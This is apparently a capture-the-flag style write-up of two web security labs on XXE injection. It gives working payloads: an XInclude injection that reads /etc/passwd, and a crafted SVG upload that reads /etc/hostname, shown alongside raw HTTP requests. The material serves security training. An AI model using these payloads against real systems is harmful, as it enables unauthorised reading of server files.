



# Finding hidden attack surface for XXE injection

## Lab #6: Exploiting XInclude to retrieve files
> This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
>
> Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
>
> To solve the lab, inject an XInclude statement to retrieve the contents of the `/etc/passwd` file. 


Normal check stock request 



> This occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service. 
> In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element.

When you can't modify the `DOCTYPE` element use the `XInclude` to target

> XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
 
Suppose this is the request before data is submitted as SOAP request.
```xml
<?xml version="1.0" standalone="yes"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

And this is the request data after submitted
```
productId=1&storeId=1
```

Now by injecting this payload to `productId` value
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

Then it would be looks like this.
```xml
<?xml version="1.0" standalone="yes"?>
<stockCheck>
	<productId>
		<foo xmlns:xi="http://www.w3.org/2001/XInclude">
		<xi:include parse="text" href="file:///etc/passwd"/>
		</foo>
	</productId>
	<storeId>1</storeId>
</stockCheck>
```

Result:




## Lab #7: Exploiting XXE via image file upload
> This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
> 
> To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

Sample of post comment request

```
POST /post/comment HTTP/1.1
Host: ac231f771e87e82b81a3557a00b30080.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------188598865416344468863471675206
Content-Length: 971
Origin: https://ac231f771e87e82b81a3557a00b30080.web-security-academy.net
Connection: close
Referer: https://ac231f771e87e82b81a3557a00b30080.web-security-academy.net/post?postId=1
Cookie: session=zTIx6VxIWFv51s0xFfFGtZ3xSyERrsvW
Upgrade-Insecure-Requests: 1

-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="csrf"

DERfGRQshcr2T2rPWiDcWWPvEr78SAoX
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="postId"

1
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="comment"

I want xxe
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="name"

test
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="avatar"; filename="emtpy.svg"
Content-Type: image/svg+xml


-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="website"

http://localhost
-----------------------------188598865416344468863471675206--
```

Payload inside empty.svg
```
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="avatar"; filename="emtpy.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Avatar contains the content of /etc/hostname



Closer


c4c6e6948ace